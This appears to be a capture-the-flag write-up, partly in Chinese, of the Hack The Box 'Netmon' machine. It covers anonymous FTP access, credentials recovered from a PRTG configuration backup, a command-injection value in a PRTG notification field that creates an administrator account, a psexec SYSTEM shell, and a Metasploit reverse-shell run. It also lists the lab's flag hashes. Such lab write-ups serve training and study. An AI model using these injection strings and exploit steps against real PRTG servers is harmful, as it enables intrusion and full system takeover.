

**Netmon is an easy difficulty Windows box with simple enumeration and exploitation. PRTG is running, and an FTP server with anonymous access allows reading of PRTG Network Monitor configuration files. The version of PRTG is vulnerable to RCE which can be exploited to gain a SYSTEM shell.**

```
Netmon 是一个简单的 Windows 盒子，具有简单的枚举和利用
PRTG 正在运行，并且具有匿名访问权限的 FTP 服务器允许读取 PRTG 网络监视器配置文件
PRTG 版本容易受到 RCE 攻击，可被利用来获取 SYSTEM shell
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.230.176 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.230.176

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### <span style="color:lightgreen">HTTP - PRTG Network Monitor - TCP 80</span>

```
PRTG Network Monitor 是一种网络监控工具

使用默认凭据无法正常登录

prtgadmin:prtgadmin
```


### <span style="color:lightgreen">FTP - TCP 21 Anonymous FTP login allowed</span>

FTP匿名登录
```
ftp 10.129.230.176
Connected to 10.129.230.176.
220 Microsoft FTP Service
Name (10.129.230.176:root): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.
```

### <span style="color:lightgreen">user.txt</span>

```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1195 PRTG Enterprise Console.lnk
02-03-19  12:18AM                 1160 PRTG Network Monitor.lnk
04-25-24  04:19AM                   34 user.txt
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
34 bytes received in 0.00 secs (28.4030 kB/s)
ftp> exit
221 Goodbye.
┌─[sg-dedivip-1]─[10.10.14.16]─[qax@htb-kocbhptbac]─[~]
└──╼ [★]$ cat user.txt 
78bd5932f50c7c9cd522ac09f283fb8f
```

### <span style="color:lightgreen">PRTG Configuration.old.bak</span>

```
Users\All Users\Paessler\PRTG Network Monitor\PRTG Configuration.old.bak
```

找到了相关凭据,尝试登录

```
<dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```

失败,尝试PrTg@dmin2019,成功登录

## <span style="color:lightblue">Shell as SYSTEM</span>
### <span style="color:lightgreen">Command Injection</span>


```
导航到如下路径进行操作
http://10.129.230.176/editnotification.htm?id=new&tabid=1
Execute Program
Demo exe notification - outfile.ps1

test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add

SAVE
```

```
验证

sudo crackmapexec smb 10.129.230.176 -u prtgadm1 -p Pwn3d_by_PRTG!
SMB         10.129.230.176  445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.129.230.176  445    NETMON           [+] netmon\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

### <span style="color:lightgreen">Shell</span>

```
psexec.py 'prtgadm1:Pwn3d_by_PRTG!@10.129.230.176'
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Requesting shares on 10.129.230.176.....
[*] Found writable share ADMIN$
[*] Uploading file VqbJbfof.exe
[*] Opening SVCManager on 10.129.230.176.....
[*] Creating service eKtx on 10.129.230.176.....
[*] Starting service eKtx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd c:\users\Administrator\Desktop

c:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 0EF5-E5E5

 Directory of c:\Users\Administrator\Desktop

02/03/2019  12:35 AM    <DIR>          .
02/03/2019  12:35 AM    <DIR>          ..
04/25/2024  04:19 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   6,744,080,384 bytes free

c:\Users\Administrator\Desktop> type root.txt
34895149b61cf9efee02e44253751dfe
```

### <span style="color:lightgreen">Metasploit</span>

```
sudo msfconsole -q

[msf](Jobs:0 Agents:0) >> use exploit/windows/http/prtg_authenticated_rce
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set ADMIN_PASSWORD PrTg@dmin2019
ADMIN_PASSWORD => PrTg@dmin2019
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set rhosts 10.129.230.176
rhosts => 10.129.230.176
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> set lhost 10.10.14.16
lhost => 10.10.14.16
[msf](Jobs:0 Agents:0) exploit(windows/http/prtg_authenticated_rce) >> exploit 

[*] Started reverse TCP handler on 10.10.14.16:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2019)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175686 bytes) to 10.129.230.176
[*] Meterpreter session 1 opened (10.10.14.16:4444 -> 10.129.230.176:50157) at 2024-04-25 09:55:31 +0100

(Meterpreter 1)(C:\Windows\system32) > getuid 
Server username: NT AUTHORITY\SYSTEM
```

